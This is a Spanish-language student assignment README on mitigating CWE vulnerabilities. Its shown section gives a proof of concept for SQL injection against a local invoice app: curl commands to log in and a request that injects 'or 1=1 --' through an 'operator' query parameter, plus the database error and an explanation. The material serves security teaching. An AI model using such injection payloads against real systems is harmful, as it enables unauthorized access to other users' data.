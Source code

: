 # Consigna práctica 2: Mitigación de Vulnerabilidades de CWE

Trabajo realizado por Juan Rodriguez, Juan Cama y Gastón Bauer.

Link al repositorio: https://github.com/ignrdz2/DSS-P2.git

## 1. Inyección SQL (SQLi)

### Prueba de Concepto (PoC)

**Paso 1:** Se obtiene un token de autenticación usando el usuario de prueba.

```sh
curl -X POST http://localhost:3000/auth/login \
     -H "Content-Type: application/json" \
     -d '{"username":"test","password":"password"}'
```

**Respuesta esperada:**

```json
{
  "token": "<TOKEN>",
  "user": { ... }
}
```

**Paso 2:** Se realiza una petición maliciosa para explotar la inyección SQL.

```sh
curl -H "Authorization: Bearer <TOKEN>" \
     "http://localhost:3000/invoices?status=paid&operator=or%201%3D1%20--"
```

**Respuesta obtenida:**

```json
{
  "message": "select * from \"invoices\" where \"userId\" = $1 and  status or 1=1 -- 'paid' - argument of AND must be type boolean, not type character varying"
}
```

**Explicación:**

- El error recibido demuestra que el parámetro `operator` se inserta directamente en la consulta SQL.
- La base de datos rechaza la consulta por tipo de datos, pero la vulnerabilidad existe y puede ser explotada.
- Si la consulta fuera aceptada, se mostrarían todas las facturas, ignorando el filtro por estado.

**Evidencia 1:**

![PoC SQLi](evidencias/sqli_poc.jpeg)
